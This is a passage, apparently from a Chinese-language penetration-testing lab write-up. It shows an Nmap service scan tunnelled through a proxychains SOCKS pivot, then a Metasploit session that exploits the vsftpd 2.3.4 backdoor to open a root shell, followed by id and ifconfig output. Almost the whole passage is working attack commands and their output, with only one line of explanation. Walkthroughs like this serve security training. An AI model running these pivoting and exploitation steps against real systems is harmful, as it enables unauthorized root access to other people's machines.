 ```
Discovered open port 22/tcp on 8.8.8.9|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:80-&lt;&gt;&lt;&gt;-OK
Discovered open port 80/tcp on 8.8.8.9Completed Connect Scan at 05:54, 1.37s elapsed (4 total ports)Initiating Service scan at 05:54
Scanning 4 services on 8.8.8.9
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:21-&lt;&gt;&lt;&gt;-OK
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:22-&lt;&gt;&lt;&gt;-OK
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:23-&lt;&gt;&lt;&gt;-OK
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:80-&lt;&gt;&lt;&gt;-OK
Completed Service scan at 05:54, 11.09s elapsed (4 services on 1 host)NSE: Script scanning 8.8.8.9.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:54
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:80-&lt;&gt;&lt;&gt;-OK
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:80-&lt;&gt;&lt;&gt;-OK
Completed NSE at 05:54, 1.71s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:54
Completed NSE at 05:54, 0.00s elapsed
Nmap scan report for 8.8.8.9
Host is up, received user-set (0.41s latency).
Scanned 
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 2.3.4
22/tcp open  ssh     syn-ack OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)23/tcp open  telnet  syn-ack Linux telnetd
80/tcp open  http    syn-ack Apache httpd 2.2.8 ((Ubuntu) DAV/2)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
root@kali:~#
```

发现8.8.8.9(SK)这台机器可能有漏洞,用msf模块尝试getshell:

```
msf &gt; msf &gt; use exploit/unix/ftp/vsftpd_234_backdoor msf exploit(vsftpd_234_backdoor) &gt; show options Module options (exploit/unix/ftp/vsftpd_234_backdoor):   Name   Current Setting  Required  Description   ----   ---------------  --------  -----------   RHOST                   yes       The target address   RPORT  21               yes       The target portExploit target:   Id  Name   --  ----   0   Automaticmsf exploit(vsftpd_234_backdoor) &gt; set rhost 8.8.8.9rhost =&gt; 8.8.8.9msf exploit(vsftpd_234_backdoor) &gt; run[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)[*] 8.8.8.9:21 - USER: 331 Please specify the password.[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)[*] Found shell.[*] Command shell session 4 opened (Local Pipe -&gt; Remote Pipe) pwd/iduid=0(root) gid=0(root)ifconfigeth0      Link encap:Ethernet  HWaddr 08:00:27:56:f1:7c            inet addr:8.8.8.9  Bcast:8.8.8.255  Mask:255.255.255.0          inet6 addr: fe80::a00:27ff:fe56:f17c/64 Scope:Link          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1          RX packets:10843 errors:0 dropped:0 overruns:0 frame:0          TX packets:2779 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:1000           RX bytes:1081842 (1.0 MB)  TX bytes:661455 (645.9 KB)          Base address:0xd010 Memory:f0000000-f0020000 lo        Link encap:Local Loopback            inet addr:127.0.0.1  Mask:255.0.0.0          inet6 addr: ::1/128 Scope:Host          UP LOOPBACK RUNNING  MTU:16436  Metric:1          RX packets:18161 errors:0 dropped:0 overruns:0 frame:0          TX packets:18161 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:0           RX bytes:5307479 (5.0 MB)  TX bytes:5307479 (5.0 MB)
```


